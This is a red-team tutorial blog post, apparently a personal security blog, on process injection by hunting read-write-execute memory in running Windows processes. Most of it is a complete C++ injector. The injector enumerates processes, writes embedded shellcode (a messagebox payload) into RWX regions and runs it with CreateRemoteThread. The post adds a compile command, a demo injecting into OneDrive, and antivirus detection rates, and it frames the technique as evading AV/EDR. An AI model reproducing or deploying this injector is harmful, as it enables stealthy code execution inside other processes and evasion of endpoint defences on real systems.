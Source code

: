 ```yaml
---
title:  "Process injection via RWX-memory hunting. Simple C++ example."
date:   2022-02-01 10:00:00 +0600
header:
  teaser: "/assets/images/38/2022-02-02_15-59.png"
categories:
  - tutorial
tags:
  - injection
  - winapi
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/38/2022-02-02_15-59.png){:class="img-responsive"}    

This is a result of my own research on another process injection technique.   

### RWX-memory hunting    

Let's take a look at logic of our [classic](/tutorial/2021/09/18/malware-injection-1.html) code injection malware:    
```cpp
//...
// allocate memory buffer for remote process
rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

// "copy" data between processes
WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

// our process start new thread
rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
//...
```

As you remember, we use `VirtualAllocEx` which is allows to us to allocate memory buffer for remote process, then, `WriteProcessMemory` allows you to copy data between processes. And `CreateRemoteThread` you can specify which process should start the new thread.    

What about another way? it is possible to enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help to evasion some AV/EDR.     

### practical example

The flow is this technique is simple, let's go to investigate its logic:   

Loop through all the processes on the system:    

![injection 2](/assets/images/38/2022-02-02_18-33.png){:class="img-responsive"}   

Loop through all allocated memory blocks in each process:

![injection 3](/assets/images/38/2022-02-02_18-35.png){:class="img-responsive"}   

Then, we check for memory block that is protected with `RWX`:    

![injection 4](/assets/images/38/2022-02-02_18-36.png){:class="img-responsive"}   

if ok, print our memory block (* for demonstration *):    

![injection 5](/assets/images/38/2022-02-02_18-38.png){:class="img-responsive"}   

write our payload to this memory block:    

![injection 6](/assets/images/38/2022-02-02_18-39.png){:class="img-responsive"}   

then start a new remote thread:    

![injection 7](/assets/images/38/2022-02-02_18-44.png){:class="img-responsive"}   

Full C++ source code of our malware is:    

```cpp
/*
hack.cpp
process injection technique via RWX memory hunting
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/02/01/malware-injection-16.html
*/
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  MEMORY_BASIC_INFORMATION m;
  PROCESSENTRY32 pe;
  LPVOID address = 0;
  HANDLE ph;
  HANDLE hSnapshot;
  BOOL hResult;
  pe.dwSize = sizeof(PROCESSENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return -1;

  hResult = Process32First(hSnapshot, &pe);

  while (hResult) {
    ph = OpenProcess(MAXIMUM_ALLOWED, false, pe.th32ProcessID);
    if (ph) {
      printf("hunting in %s\n", pe.szExeFile);
      while (VirtualQueryEx(ph, address, &m, sizeof(m))) {
        address = (LPVOID)((DWORD_PTR)m.BaseAddress + m.RegionSize);
        if (m.AllocationProtect == PAGE_EXECUTE_READWRITE) {
          printf("rwx memory successfully found at 0x%x :)\n", m.BaseAddress);
          WriteProcessMemory(ph, m.BaseAddress, my_payload, sizeof(my_payload), NULL);
          CreateRemoteThread(ph, NULL, NULL, (LPTHREAD_START_ROUTINE)m.BaseAddress, NULL, NULL, NULL);
          break;
        }
      }
      address = 0;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }
  CloseHandle(hSnapshot);
  CloseHandle(ph);
  return 0;
}

```

As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let’s go to see everything in action. Compile our practical example:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection 8](/assets/images/38/2022-02-02_16-10.png){:class="img-responsive"}   

Then run it! In our case victim machine is `Windows 10 x64`:    

![injection 9](/assets/images/38/2022-02-02_16-10_1.png){:class="img-responsive"}  

As you can see, everything is worked perfectly! :)    

Let's go to check one of our victim process, for example `OneDrive`:    

![injection 10](/assets/images/38/2022-02-02_18-59.png){:class="img-responsive"}  

![injection 11](/assets/images/38/2022-02-02_16-09.png){:class="img-responsive"}  

> There is a one caveat. The provided below code is a dirty proof-of-concept and may crash certain processes. For example, in my case `SearchUI.exe` is crashet and not worked after run my example.    

Then, upload our malware to VirusTotal:    

![vt](/assets/images/38/2022-02-02_19-44.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection](https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection)    

**So, 7 of 69 AV engines detect our file as malicious.**    

`Moneta64.exe` result:

![moneta](/assets/images/38/2022-02-02_19-49.png){:class="img-responsive"}    

The reason why it's good to have this technique in your arsenal is because it does not require you to allocate new `RWX` memory to copy your payload over to by using `VirtualAllocEx` which is more popular and suspicious and which is more closely investigated by the blue teamers.

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[VirtualQueryEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex)    
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)    
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)    
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)    
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[Taking a snapshot and viewing processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)    
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)    
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)    
[Hunting memory](https://www.elastic.co/blog/hunting-memory)    
[Moneta64.exe](https://github.com/forrest-orr/moneta)    
[source code in Github](https://github.com/cocomelonc/2022-02-01-malware-injection-16)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
